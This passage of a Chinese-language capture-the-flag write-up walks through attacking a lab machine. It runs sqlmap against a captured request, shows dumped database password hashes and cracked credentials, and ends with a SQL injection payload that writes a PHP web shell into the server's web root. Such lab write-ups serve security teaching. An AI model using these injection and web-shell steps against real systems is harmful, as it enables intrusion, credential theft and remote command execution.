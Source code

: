 ![image-20200922100052641]({{ site.url }}/assets/Control_167.assets/image-20200922100052641.png)


同时修改包，加上代理。

![image-20200922100125181]({{ site.url }}/assets/Control_167.assets/image-20200922100125181.png)




把这个包内容保存为一个单独txt文件以便发往sqlmap进行注入分析

![image-20200922100203786]({{ site.url }}/assets/Control_167.assets/image-20200922100203786.png)



```bash
$  sqlmap --all -r sql.txt --batch
```

漫长的等待，过程倒是可以看到不少东西。但是实在是太慢了。

![image-20200922100259629]({{ site.url }}/assets/Control_167.assets/image-20200922100259629.png)

![image-20200922100326614]({{ site.url }}/assets/Control_167.assets/image-20200922100326614.png)

![image-20200922100346770]({{ site.url }}/assets/Control_167.assets/image-20200922100346770.png)

```bash
[12:33:37] [INFO] cracked password 'l3tm3!n' for user 'manager'                             
database management system users password hashes:                                           
[*] hector [1]:
    password hash: *0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
[*] manager [1]:
    password hash: *CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
    clear-text password: l3tm3!n
[*] root [1]:
    password hash: *0A4A5CAD344718DC418035A1F4D292BA603134D8

```

![image-20200922100440430]({{ site.url }}/assets/Control_167.assets/image-20200922100440430.png)

manager：l3tm3!n
hector：l33th4x0rhector
有密钥了。但是哪都不行。

所以打数据库。通过注入写入shell文件
还是抓搜索的包，改代理

![image-20200922100624406]({{ site.url }}/assets/Control_167.assets/image-20200922100624406.png)

然后加上注入语句

```bash
productName=D-Link+DWA-171'; select "<?php echo shell_exec($_GET['evilcmd']);?>" into OUTFILE 'C:\\Inetpub\\wwwroot\\evil2.php';#
```
